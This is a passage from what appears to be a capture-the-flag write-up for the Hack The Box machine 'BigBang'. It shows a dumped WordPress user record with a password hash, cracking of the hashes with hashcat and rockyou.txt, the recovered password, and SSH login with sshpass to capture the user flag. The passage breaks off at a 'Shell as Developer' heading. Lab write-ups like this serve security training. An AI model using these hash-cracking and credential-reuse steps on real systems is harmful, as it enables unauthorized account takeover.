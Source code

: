 Sample output:

```json
{
    "ID": "3",
    "user_login": "shawking",
    "user_pass": "$P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./",
    "user_email": "shawking@bigbang.htb"
}
```

---

## 🔓 Cracking WordPress Hashes

### ✅ Save Hashes for Cracking

```
root:$P$Beh5HLRUlTi1LpLEAstRyXaaBOJICj1
shawking:$P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./
```

### ✅ Hashcat Usage

```bash
hashcat wphashes rockyou.txt --user
```

✔ Found password for shawking:

```
quantumphysics
```

---

## 🔐 SSH Access with Cracked Password

```bash
sshpass -p 'quantumphysics' ssh shawking@bigbang.htb
```

✔ Connected successfully
✔ Captured user flag:

```bash
cat user.txt
# ad2f85e7************************
```

---

## Shell as Developer

### Enumeration
